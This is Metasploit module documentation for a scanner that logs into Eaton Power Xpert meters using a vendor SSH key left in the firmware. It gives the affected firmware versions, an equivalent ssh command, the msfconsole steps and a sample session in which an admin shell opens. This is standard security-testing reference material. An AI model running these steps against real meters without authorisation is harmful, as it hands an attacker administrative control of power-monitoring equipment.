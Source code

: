 # Description
  
  The `eaton_xpert_backdoor` module scans for Eaton Xpert Power meters with a vendor SSH private key used in the device firmware's build process.

## Vulnerable Application

  Eaton is a power management company with a wide range of power management products.
  Power meters sold by Eaton used a firmware build process for many years that left a developer key pair in the default profile.
  Specific models include: Power Xpert Meter 4000/6000/8000

  [Software Link](http://www.eaton.com/Eaton/ProductsServices/Electrical/ProductsandServices/PowerQualityandMonitoring/PowerandEnergyMeters/PowerXpertMeter400060008000/index.htm#tabs-2)

  Vulnerable Version: Firmware <= 12.x and <= 13.3.x.x and below more versions may be impacted

  Tested on: Firmware 12.1.9.1 and 13.3.2.10

  Similar to running: `ssh -m hmac-sha1 -c aes128-cbc -o KexAlgorithms=diffie-hellman-group1-sha1 -o HostKeyAlgorithms=ssh-rsa  -i ./id_rsa admin@1.1.1.2`

## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/ssh/eaton_xpert_backdoor`
  3. `set RHOSTS 1.1.1.2`
  4. `run -z`
  5. Vulnerable hosts should present a shell

## Scenarios

```
msf > use auxiliary/scanner/ssh/eaton_xpert_backdoor
msf auxiliary(scanner/ssh/eaton_xpert_backdoor) > set RHOSTS 1.1.1.2
RHOSTS => 1.1.1.2
msf auxiliary(scanner/ssh/eaton_xpert_backdoor) > run -z

[+] 1.1.1.2:22 - Logged in as admin
[*] Command shell session 1 opened (1.1.1.1:62063 -> 1.1.1.2:22) at 2018-08-31 19:12:21 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
